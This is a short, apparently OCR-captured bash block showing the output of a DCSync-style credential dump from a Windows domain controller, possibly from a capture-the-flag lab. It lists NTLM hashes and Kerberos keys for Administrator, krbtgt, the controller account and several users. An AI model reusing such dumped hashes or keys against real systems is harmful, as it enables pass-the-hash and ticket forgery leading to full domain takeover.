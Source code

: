 ```bash
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                            
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                     
Administrator:500:aad3b435b51404eeaad3b435b51404ee:298c11551a25b246bc4e90bc463c8325:::                                                                   
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                           
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5f5142aae3cce656285ce4504605dec1:::                                                                          
JDgodd:1104:aad3b435b51404eeaad3b435b51404ee:8846130392c4169cb552fe5b73b046af:::                                                                         
Martin:1105:aad3b435b51404eeaad3b435b51404ee:a9347432fb0034dd1814ca794793d377:::
nikk37:1106:aad3b435b51404eeaad3b435b51404ee:17a54d09dd09920420a6cb9b78534764:::
yoshihide:1107:aad3b435b51404eeaad3b435b51404ee:6d21f46be3697ba16b6edef7b3399bf4:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:b043edae34baa61e727e92f0a89dc161:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:675bf92933c97f5200468f1acba04a1db52b49fdaa4de8f7e1d2d406fceef902
Administrator:aes128-cts-hmac-sha1-96:18677934f37bf440e20c84eb841792b3
Administrator:des-cbc-md5:3b9dba3b323efd7f
krbtgt:aes256-cts-hmac-sha1-96:668ee76d84bf5ea1e845933ace27ecde98b736f218c0830cbe71e18812166cda
krbtgt:aes128-cts-hmac-sha1-96:f91f8540a9aca4af627959d1cb888f13
krbtgt:des-cbc-md5:d032029279fbc4fd
JDgodd:aes256-cts-hmac-sha1-96:53fcc54b04d560253b0fdb259b9de0da8c5c65916d12b5e4b5dd4723d9003443
JDgodd:aes128-cts-hmac-sha1-96:22e9e5268e40d1fc8198415fdd6c64bd
JDgodd:des-cbc-md5:76d0fe1a231934e5
Martin:aes256-cts-hmac-sha1-96:d5eed6cafcabd393a2101f4fadc143344c48ebaacb065490510ef608424065f0
Martin:aes128-cts-hmac-sha1-96:0a0cff37d02d1299a24fe58debb20392
Martin:des-cbc-md5:570bfd51e9f7e3bf
nikk37:aes256-cts-hmac-sha1-96:d4a44efe5740231cad3da85c294b01678840ac7a5b6207f366c36fc3c5b59347
nikk37:aes128-cts-hmac-sha1-96:eaff7bb14b5c41f80e5216cb09e16435
nikk37:des-cbc-md5:ae5ddf8fc2853e67
yoshihide:aes256-cts-hmac-sha1-96:0849b8c4eaee4edeaed2972752529251bbb616e9f24e08992923b4f18e9d73b0
yoshihide:aes128-cts-hmac-sha1-96:d668308ea96ebda1d31e3bb77b8e6768
yoshihide:des-cbc-md5:3bae5257ea029d61 
DC$:aes256-cts-hmac-sha1-96:f41cd2005b55017c66c0cda9bee4ba2db9c5a82c054a7f9dd64d4ad3ee03f591
DC$:aes128-cts-hmac-sha1-96:ac3ca985d299f6edde2ff736307bca4b
DC$:des-cbc-md5:e62aa7866b0bc4ec
```